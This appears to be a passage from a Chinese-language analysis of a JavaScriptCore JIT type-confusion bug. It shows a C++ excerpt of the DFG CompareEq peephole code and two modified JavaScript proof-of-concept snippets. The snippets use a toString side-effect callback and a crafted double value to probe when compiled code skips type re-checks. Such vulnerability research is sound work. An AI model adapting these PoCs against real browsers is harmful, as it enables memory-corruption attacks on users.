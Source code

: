 ```c++
            else if (node->isBinaryUseKind(SymbolUse))
                compilePeepHoleSymbolEquality(node, branchNode);
            else if (node->isBinaryUseKind(ObjectUse))
                compilePeepHoleObjectEquality(node, branchNode);
            else if (node->isBinaryUseKind(ObjectUse, ObjectOrOtherUse))
                compilePeepHoleObjectToObjectOrOtherEquality(node->child1(), node->child2(), branchNode);
            else if (node->isBinaryUseKind(ObjectOrOtherUse, ObjectUse))
                compilePeepHoleObjectToObjectOrOtherEquality(node->child2(), node->child1(), branchNode);
            else if (!needsTypeCheck(node->child1(), SpecOther))
                nonSpeculativePeepholeBranchNullOrUndefined(node->child2(), branchNode);
            else if (!needsTypeCheck(node->child2(), SpecOther))
                nonSpeculativePeepholeBranchNullOrUndefined(node->child1(), branchNode);
            else {
                nonSpeculativePeepholeBranch(node, branchNode, condition, operation); //===================>
                return true;
            }
```

可以把PoC改一下，针对性地修改UseKind，可以看到UseKind为Object、StringIdent时，生成的机器码不含有回调的：

```javascript
//ObjectUse -- no callback
//39:< 1:loc7>  CompareEq(Check:Object:@38, Object:@35, Boolean|PureInt, Bool, Exits, bc#32, ExitValid)
let arr = [1.1, 2.2, 3.3];
arr['a'] = 1;
let o = {};
let go = function (a, c) {
    a[0] = 1.1;
    a[1] = 2.2;
    c == o;
    a[2] = 5.607070584648226e-310;
}
for (let i = 0; i < 100000; i++) {
    go(arr, {});
}
go(arr, { toString: () => { arr[0] = {}; return '1'; } });
"" + arr[2];
```

```javascript
//StringIdent -- no callback
//39:< 1:loc7>	CompareEq(Check:StringIdent:@38, StringIdent:@35, Boolean|PureInt, Bool, Exits, bc#32, ExitValid)
let arr = [1.1, 2.2, 3.3];
arr['a'] = 1;
let s = "astring";
let go = function (a, c) {
    a[0] = 1.1;
    a[1] = 2.2;
    c == s;
    a[2] = 5.607070584648226e-310;
}
for (let i = 0; i < 100000; i++) {
    go(arr, "bstring");
}
go(arr, { toString: () => { arr[0] = {}; return 'cstring'; } });
"" + arr[2];
```
